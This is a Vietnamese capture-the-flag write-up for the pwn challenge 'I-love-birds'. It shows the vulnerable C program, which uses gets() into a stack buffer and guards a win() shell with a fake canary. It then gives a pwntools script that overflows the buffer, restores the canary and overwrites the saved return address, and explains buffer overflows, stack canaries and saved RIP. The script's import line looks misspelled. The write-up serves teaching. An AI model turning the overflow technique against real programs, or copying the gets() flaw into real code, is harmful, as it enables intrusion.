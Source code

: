 ```yaml
---
title: Pwn - I-love-birds
---
```


## Solution

```c
#include <stdio.h>
#include <stdlib.h>

void gadget() {
    asm("push $0x69;pop %rdi");
}


void win(int secret) {
    if (secret == 0xA1B2C3D4) {
        system("/bin/sh");
    }
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    unsigned int canary = 0xDEADBEEF;

    char buf[64];

    puts("I made a canary to stop buffer overflows. Prove me wrong!");
    gets(buf); // Buffer Overflow

    if (canary != 0xDEADBEEF) {
        puts("No stack smashing for you!");
        exit(1);
    }

    return 0;
}
```

Chương trình có một lỗi `Buffer Overflow` ở hàm `gets(buf)`, ta có thể ghi đè lên biến `canary` để qua được kiểm tra và gọi hàm `win()` thông qua việc ghi đè saved RIP của hàm main.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./birds', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
b *0x40125D
c
'''

def start(argv=[]):
    if args.GDB:
        p = process([exe.path] + argv, aslr=False)
        gdb.attach(p, gdbscript=gdbscript)
        pause()
        return p
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)


# ==================== EXPLOIT ====================
p = start()

canary = 0xDEADBEEF

sl(b'A'*0x48 + b'B'*4 + p32(canary) + p64(0) + p64(0x4011dc))

interactive()
```


- Buffer Overflow là một lỗi bảo mật xảy ra khi một chương trình cố gắng ghi dữ liệu vào một vùng bộ nhớ mà không kiểm tra kích thước của dữ liệu đó, dẫn đến việc ghi đè lên các vùng bộ nhớ khác. Trong trường hợp này, hàm `gets(buf)` không kiểm tra kích thước của chuỗi nhập vào, cho phép kẻ tấn công ghi đè lên các biến khác trong stack, bao gồm cả biến `canary` và địa chỉ trả về của hàm.

- Stack Canary là một kỹ thuật bảo mật được sử dụng để phát hiện và ngăn chặn các cuộc tấn công tràn bộ đệm (buffer overflow). Nó hoạt động bằng cách đặt một giá trị đặc biệt (canary) vào vùng bộ nhớ ngay trước địa chỉ trả về của hàm. Nếu giá trị này bị thay đổi, chương trình sẽ nhận ra rằng có một cuộc tấn công đã xảy ra và sẽ dừng thực thi. Ở đây, ta có thể thấy rằng giá trị canary được đặt là `0xDEADBEEF`, và nếu giá trị này bị thay đổi, chương trình sẽ dừng lại và không cho phép thực thi hàm `win()`. Stack Canary sẽ tuỳ vào kiến trúc mà có số byte khác nhau, ví dụ như trên x86-64 sẽ là 8 byte, trong khi trên x86 sẽ là 4 byte. Lưu ý rằng giá trị canary ở challenge này là giá trị tượng trưng, chứ không phải là giá trị canary thực tế. Trên thực tế canary đã được tắt trong lúc compile.

```sh
-----------------
| ...           |
-----------------
| Stack Canary  |
-----------------
| Saved RBP     |
-----------------
| Saved RIP     |
-----------------
```

- Saved RIP (Return Instruction Pointer) là một thanh ghi trong kiến trúc x86-64, nó lưu địa chỉ của lệnh tiếp theo sẽ được thực thi sau khi hàm hiện tại kết thúc. Khi xảy ra tràn bộ đệm, kẻ tấn công có thể ghi đè lên giá trị này để điều khiển luồng thực thi của chương trình, ví dụ như chuyển đến một hàm khác mà kẻ tấn công muốn thực thi.
